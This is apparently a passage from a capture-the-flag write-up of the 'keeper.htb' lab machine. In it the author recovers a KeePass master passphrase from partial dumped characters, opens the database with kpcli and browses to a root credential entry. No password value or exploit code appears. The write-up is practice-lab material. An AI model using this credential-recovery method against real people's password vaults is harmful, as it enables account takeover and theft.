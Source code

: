 ```bash

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 

...

17.:    e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}...
```

I tried opening the Keepass file and login as root with the extracted passphrase. It failed. I tried combination of the extracted words, still no luck. Eventually, I searched for what the words in the passphrase meant. It was close to the name of a Danish recipe. I tried the name of the recipe and it unlocked the Keepass file.

```bash
$ kpcli                                                                                                              
                                                                                                                     
KeePass CLI (kpcli) v3.8.1 is ready for operation.                                                                   
Type 'help' for a description of available commands.                                                                 
Type 'help <command>' for details on individual commands.                                                            
                                                                                                                     
kpcli:/> open passcodes.kdbx                                                                                          
Provide the master password: ************************* 
kpcli:/> ls                                                                                                          
=== Groups ===
passcodes/                         
```

It worked, I looked at the credentials it contained.

```bash
kpcli:/> cd passcodes/
kpcli:/passcodes> ls   
=== Groups ===  
eMail/             
General/
Homebanking/                    
Internet/
Network/                  
Recycle Bin/
Windows/
kpcli:/passcodes> cd eMail/
kpcli:/passcodes/eMail> ls
kpcli:/passcodes/eMail> cd ..

...

kpcli:/passcodes> cd Network/
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
```